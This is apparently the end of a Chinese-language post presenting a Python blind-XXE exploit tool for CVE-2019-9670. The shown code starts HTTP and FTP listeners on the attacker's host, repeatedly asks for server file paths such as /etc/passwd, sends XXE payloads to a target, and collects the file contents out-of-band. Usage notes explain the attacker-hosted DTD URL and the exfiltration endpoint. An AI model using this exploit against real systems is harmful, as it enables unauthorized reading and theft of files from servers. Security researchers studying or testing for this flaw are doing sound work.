 ```
        print("%s <xxeplatform_url> <xxeplatform_http_port> <xxeplatform_ftp_port> <target_url>"%(sys.argv[0]))
        print("Note:")
        print("If you set the value of <xxeplatform_ftp_port> to false, the HTTP mode will be turned on and the results will be received through HTTP")        
        print("Eg.")
        print("%s 192.168.1.1 80 false 192.168.1.2"%(sys.argv[0]))
        print("%s 192.168.1.1 80 21 192.168.1.2"%(sys.argv[0]))
        sys.exit(0)
    else:
        xxeplatform_url = sys.argv[1]       
        xxeplatform_http_port = sys.argv[2]
        xxeplatform_ftp_port = sys.argv[3]
        target_url = sys.argv[4]
        print("[*] HTTP Server listening on %s"%(xxeplatform_http_port))
        httpd = HTTPServer(('0.0.0.0', int(xxeplatform_http_port)), XXERequestHandler)
        handlerthr = Thread(target=httpd.serve_forever, args=())
        handlerthr.daemon = True
        handlerthr.start()

        if xxeplatform_ftp_port == "false":
            print("[*] Receive results over HTTP protocol")
        else:
            print("[*] FTP Server listening on %s" % (xxeplatform_ftp_port))
            t_ftpd = FTPserver(int(xxeplatform_ftp_port))
            t_ftpd.daemon = True
            t_ftpd.start()
            print("[*] Receive results over FTP protocol")            

        try:
            while 1:
                filetoread = input("Input the file path to read(Eg. /etc/passwd):")
                send_XXEPayload(xxeplatform_url, xxeplatform_http_port, target_url)

        except KeyboardInterrupt:
            pass
```



代码支持命令行下使用，传输数据支持HTTP和FTP

HTTP数据传输模式示例：

```
blind_XXEPlatform_CVE-2019-9670.py 192.168.1.1 80 false 192.168.1.2
```

参数说明：

- 本机IP为192.168.1.1
- XXE服务器dtd文件地址为`http://192.168.1.1:80/file.dtd`
- HTTP数据传输地址为`http://192.168.1.1:80/?requestfiledata=xxxx`
- 目标服务器地址为`https://192.168.1.2`
